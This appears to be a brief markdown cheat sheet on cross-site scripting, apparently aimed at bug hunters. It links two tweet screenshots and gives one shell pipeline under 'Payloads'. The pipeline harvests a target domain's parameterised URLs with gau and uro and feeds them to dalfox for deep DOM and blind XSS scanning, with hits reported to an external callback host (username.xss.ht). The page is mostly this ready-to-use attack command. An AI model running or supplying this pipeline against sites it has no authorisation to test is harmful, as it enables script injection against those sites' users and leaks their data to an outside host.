 <h1 align="center">XSS --> Cross Site Scripting</h1>

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="center" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   cat Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```
